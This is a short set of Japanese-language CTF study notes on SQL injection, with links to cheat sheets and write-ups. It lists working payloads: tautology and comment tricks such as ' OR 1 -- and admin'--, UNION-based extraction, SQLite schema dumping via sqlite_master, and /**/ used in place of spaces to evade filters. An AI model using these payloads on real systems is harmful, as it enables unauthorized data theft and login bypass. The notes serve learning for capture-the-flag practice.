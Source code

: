 # SQL Injection

https://github.com/swisskyrepo/PayloadsAllTheThings  
なんかすごいのあった

## 俯瞰

- SQLi(=SQL injection)
  - [チートシート](http://www.byakuya-shobo.co.jp/hj/moh/sqlinjectioncheatsheet.html)
- Blind SQLi
  - 【基本】 https://graneed.hatenablog.com/entry/2019/10/13/214515

- PostgreSQL
  - `' OR 1 --`

- MySQL
  - `#`が使えたらMySQLだし、そうでなければそれ以外（PostgresSQL, SQLite)
  - `inforrmation_schema.columns`でカラム情報を抜ける' || (SELECT group_concat(sql) FROM sqlite_master) || '
- UNIONによる結合で情報を抜く
  - `UNION SELECT null,flag FROM flag`みたいにやるが、カラムが使えないときは、JOINを使うこともある [参考](http://zoczus.blogspot.com/2013/03/sql-injection-without-comma-char.html)

- SQLite
  - テーブル情報を全て抜き出す
    - `SELECT group_concat(sql) FROM sqlite_master`とすると、カンマで結合されて1レコードで出てくる [出典](https://qiita.com/kusano_k/items/0e9d29ee9f6bda614a1d#empire1---points-400---solves-499---web-exploitation)
    - `SELECT sql FROM sqlite_master`と書くと全部バラバラに出てくる

- Space2Comment
	- /**/を使うと空白として扱われれる

* 問題
- [https://ctftime.org/task/7075:title=RITSEC CTF 2018 Space Force] 「'=''or'」、「'/**/union/**/select/**/*/**/from/**/spaceships#」、「'=''#」





## 対策回避方法

- フィルタしている場合
  - ユーザ名：パスワードの組で指定する時に、ユーザ名で`admin'--`としてしまう [手法出典](http://www.byakuya-shobo.co.jp/hj/moh/sqlinjectioncheatsheet.html) 問題：picoCTF2019 Irish-Name-Repo 2
  

